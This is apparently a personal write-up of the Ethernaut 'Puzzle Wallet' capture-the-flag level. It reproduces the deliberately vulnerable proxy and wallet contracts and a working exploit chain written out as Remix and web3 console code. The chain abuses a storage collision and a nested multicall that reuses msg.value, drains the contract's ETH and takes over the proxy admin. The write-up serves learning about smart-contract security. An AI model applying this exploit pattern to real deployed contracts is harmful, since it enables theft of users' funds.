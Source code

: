 # Ethernaut 24: Puzzle Wallet

Learn how to work with more realistic code. Here we have an obvious vulnerability in storage, but to exploit it, a small chain of tasks is necessary that exploits another not so obvious vulnerability.

## The Task Intro

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, msg.value will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple delegatecalls to a function that looks safe on its own could lead to unwanted transfers of ETH, as delegatecalls keep the original msg.value sent to the contract.

Move on to the next level when you're ready!

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

## The Solution

This level was much harder then the previous ones. The first vulnerability was clear after first sight: We have a Proxy contract and an implementation contract that do not match in Storage. Calls made on the proxy override values on the implementation and vice virca. I know that the storage is stored on the Proxy and the logic does not contain any data - if we stick to the delegatecall pattern.

It is obvious to make the me first owner of the implementation. Why is this important? Only whitelisted users can interact with the implementation. For being whitelisted I have to be the owner. The attack makes first the attacker as an owner of the implementation by calling `proposeNewAdmin(address _newAdmin)`. This sets the pendingAdmin variable, but in a delegate call an owner address is expected here, therefore I am the owner of implemntation now, when I use a delegate call. Next step is to whitelist me with `addToWhitelist`

Second step of the attack is to become the admin of the proxy contract. This is not possible through the proxy, if we could set the storage slot 1 through a delegatecall to my address, I would be the admin. The variable there is `maxBalance`. `MaxBalance` is set through 2 functions: 1 `init` or `setMaxBalance`. Init seems impossible to set maxBalance, because it require `maxBalance == 0`and it is already set to a non-zero value. `setMaxBalance`seems a way work, but it requires that the contract has a zero eth balance, currently it has a 0.001 eth balance.

Before we can set the maxBalance, we need to drain all eth out of the contract. I can use the `execute` function for this. This requires that I have a balances[myaddress]>= than the value requested. So a possible attack is to artifically rise my balance but not giving that much eth to the contract.

Calling deposit multiple times does not work because it asks each time the same value of eth. But what if in the same call I could make several calls to deposit, using the same msg.value several time? Obvious candidate is the multicall function.

This function has a simple flag check in it, only allowing one call to the deposit function, which seems safe. But hey, thinking it twice, this function allows to make multiple multicall, why not another multicall that contains a call to a deposit? In this case the flag check would pass again and I can manipulate my balance to be higher than the actual eth in the contract - a hidden vulnerability.

After this exploit, I can retrieve all eth from the contract and set maxBalance to my address. This makes me the admin of the proxy - task solved 👍. Technically I switched between solidity remix and web3 calls, here my implementation:

First I check the abi interface of the ethernaut proxy:

````apache
1. Get owner of the implementation
contract.abi
Array(10) [ {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…} ]
0: Object { name: "addToWhitelist", stateMutability: "nonpayable", type: "function", … }
1: Object { name: "balances", stateMutability: "view", type: "function", … }
2: Object { name: "deposit", stateMutability: "payable", type: "function", … }
3: Object { name: "execute", stateMutability: "payable", type: "function", … }
4: Object { name: "init", stateMutability: "nonpayable", type: "function", … }
5: Object { name: "maxBalance", stateMutability: "view", type: "function", … }
6: Object { name: "multicall", stateMutability: "payable", type: "function", … }
7: Object { name: "owner", stateMutability: "view", type: "function", … }
8: Object { name: "setMaxBalance", stateMutability: "nonpayable", type: "function", … }
9: Object { name: "whitelisted", stateMutability: "view", type: "function", … }
```
````

Unfortunately the function proposeNewadmin is not there, I switched therefore to Remix to make me owner of the implementation:

    address public proxy = 0x1;
    address public wallet = 0x1;

function attack() public {
bytes memory calldatas = abi.encodeWithSignature("proposeNewAdmin(address)",msg.sender);
(bool success, ) = proxy.call(calldatas);
if(!success){
revert();
}
}
As immediate next step I whitelist me throught the browser console, so I am allowed to interact with the contract and fulfill the require check of the onlyWhitelisted modifier.

```àppache
// whitelist the owner
await contract.addToWhitelist(player)
```

After this task, I am the whitelisted owner of the implementation contract but not the admin of the proxy. For this the next step is to drain all eth out of the contract with a nested multicall and execute.

```apache
// set the deposit function selector
let depositSelector = web3.eth.abi.encodeFunctionCall(contract.abi[2], [] )

// set the multicall selector with a nested deposit call
let multicallSelector = web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector]])

// make the nested multicall
await web3.eth.sendTransaction({
    from: "myAddress",
    to: contract.address,
    data: web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector, multicallSelector]]),
    value:  web3.utils.toWei('0.001', 'ether')
})


```

After this I can exploit all eth with `execute` and finally set me as proxy admin with `setMaxBalance`.

````apache
// get the eth
await contract.execute("myAddress", web3.utils.toWei('0.002', 'ether'),[])

// setMaxBalance - interestingly no casting is necessary :-)
await contract.setMaxBalance("myAddress")
```
````

Done 🎉️. This was a difficult task, especally to see the second vulnerability and exploit it correctly with abi encoding was time consuming, but finally as always solvable.
